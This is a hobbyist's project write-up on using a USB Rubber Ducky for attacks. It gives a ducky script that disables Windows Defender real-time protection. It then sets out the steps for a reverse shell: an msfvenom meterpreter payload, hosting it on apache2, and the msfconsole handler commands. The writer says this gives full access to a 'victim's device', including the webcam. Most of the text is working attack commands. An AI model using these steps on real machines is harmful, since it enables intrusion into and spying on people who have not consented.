

Projects

USB Rubber Ducky
Project 1 : Disabling Windows Defender
Firstly, since this is my first project with the USB Rubber Ducky, I must learn the language used for ducky scripts. This can be found on the card given with the USB Rubber ducky as well as on [https://docs.hak5.org/hc/en-us/articles/360010555153-Ducky-Script-the-USB-Rubber-Ducky-language]
Some important commands are : REM (For commenting) , DELAY (creates a momentary pause in the ducky script) , STRING , GUI (Emulates the Windows-Key)
Note that commands are in ALL CAPS
With this I am able to write the script to disable Windows defender. To do this we must know the command in powershell to disable Windows defender which happens to be `Set-MpPreference -DisableRealtimeMonitoring $true`.
However, after trying my own script as well as scripts made by others I realised that this command does not work anymore therefore instead of taking the powershell route, we must get the ducky to navigate through the interface. Got the base of the script to execute this from [https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payload---WIN10-Disable-Windows-Defender]
However, it still did not work therefore I had to edit the script and after several changes and attempts the scripts works. Encoded it using [https://ducktoolkit.com/encode]
; means new line, Script after editing it myself is:
`DELAY 1000; REM Open Windows Defender settings; CTRL ESC; DELAY 1000; STRING Windows Defender Settings; DELAY 100; ENTER; REM Navigate to realtime protection and disable it; DELAY 1000; ENTER; DELAY 1000; TAB; DELAY 1000; TAB; DELAY 1000; TAB; DELAY 1000; TAB; ENTER; DELAY 1000; SPACE; DELAY 1000; LEFT; DELAY 500; ENTER; REM Close Settings; DELAY 500; ALT F4`
Project 2 : Establishing a Reverse Shell Connection
From Project 1, we now know how to disable windows defender. Using this to our advantage, we can achieve a reverse shell connection that wont be detected by windows defender as it has been disabled. The script can be found online so I wont disclose it here. However for the script to work, we must set up our payload using msfvenom in kali linux and host it onto a file sharing service.
To do this, first we must find the ip of our kali machine using ifconfig in the kali terminal. Next we will use the command 'msfvenom -p windows/meterpreter/reverse_tcp LHOST=yourIP LPORT=8080 -f exe > s.exe' in the terminal to create our payload. Now we need to host this file so it can be downloaded when our ducky is activated. We can host it on apache2 (webserver) which comes with kali linux. We do this by using the command cp s.exe /var/www/html followed by service apache2 start to start apache2
Now we need to wait for incoming connections on port 8080 using 'sfconsole. Then we will use the commands `msfconsole` (to start msfconsole) `use exploit/multi/handler` (to listen for incoming connections) `set PAYLOAD windows/meterpreter/reverse_tcp` ,`set LHOST yourIP`, `set LPORT 8080`. Now we will type exploit to run the handler and wait for incoming connections which will come in when our rubber ducky is inserted into our victim's device.

From the image you can see that I have established a reverse shell connection. From there I have full access to the victim's device and I can do stuff such as turn on their webcam and capture them if I wanted to.
END OF PROJECT